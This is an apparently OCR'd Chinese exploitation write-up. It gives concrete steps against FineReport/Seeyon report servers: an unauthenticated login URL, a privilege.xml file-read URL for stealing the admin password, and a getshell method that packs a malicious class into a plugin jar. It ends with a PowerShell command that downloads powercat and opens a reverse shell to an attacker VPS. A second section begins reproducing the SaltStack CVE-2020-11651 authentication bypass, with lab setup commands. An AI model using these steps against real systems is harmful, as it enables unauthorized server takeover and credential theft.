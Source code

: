 **7.** **利用技巧**

1\. 未设置密码或者读取读取管理员密码  
https://seeyoon.com/seeyonreport/ReportServer?op=fs\_load&cmd=fs\_signin&\_=1560911828892

这里很有可能是没有设置密码的, 修改密码进入后台就可以了

如果设置里密码, 尝试这个接口

/report/ReportServer?op=chart&cmd=get\_geo\_json&resourcepath=privilege.xml, 读取管理员密码, 然后使用上文的解密程序解密

2\. 后台 getshell

这种后台能装插件的都随便 getshell，先去下载一个指定版本的 jar 包，本地测试环境是 9.0，下载 com.fr.plugin.external-1.3.4.zip

https://shop.finereport.com/plugin/2d36b210-2a59-4940-8c4f-f3f16d58cd66

http://shopps.finereport.com/com.fr.plugin.external-1.3.4.zip?e=1561433162&token=GYG9vMioxqbEgx-5HoAMAelD0zGdUrXT4UZ3w-d1:N-PeIkhKkjCY7LHdqelnSvp\_LmA= 编译一个恶意的 LocaleFinder.class 打包进去，复制 LocaleFinder.class 到

\\com.fr.plugin.external-1.3.4.zip\\fr-plugin-external-1.3.4\\fr-plugin-external-1.3.4.jar\\com\\fr\\plugin\\external\\locale\\ 进入到插件管理界面, 上传符合规范的 jar 包插件即可没生效就访问一下 https://xxxx/seeyonreport/ReportServer?op=im 一般后台都是 win, 可以直接使用 powershell 进行反弹 shellpowershell

IEX(New-Object System.Net.Webclient).

DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1');

powercat -c vps\_ip -p 6666 -e cmd

**8.** **防护方法**

1\. 及时更新补丁

2\. 使用 waf 拦截  

4  

  

SaltStack 认证绕过复现
================

**1****、漏洞概述**

在 CVE-2020-11651 认证绕过漏洞中攻击者通过构造恶意请求，可以绕过 Salt Master 的验证逻辑，调用相关未授权函数功能，从而可以造成远程命令执行漏洞：

ClearFuncs 类会处理非认证的请求和暴露\_send\_pub() 方法，可以用来直接在 master publish 服务器上对消息进行排队。这些消息可以用来触发 minion 来以 root 权限运行任意命令。

ClearFuncs 类还会暴露 prep\_auth\_info() 方法，该方法会返回用来认证 master 服务器上本地 root 用户的命令的 root key。然后 root key 就可以远程调用 master 服务器的管理命令。这种无意的暴露提供给远程非认证的攻击者对 salt master 的与 root 权限等价的访问权限。

**2****、影响版本**

l SaltStack < 2019.2.4  
l SaltStack < 3000.2

**3****、环境搭建**

直接使用 vulhub 进行搭建  
git clone https://github.com/vulhub/vulhub.git  
cd /vulhub/saltstack/CVE-2020-11651/  
docker-compose up -d
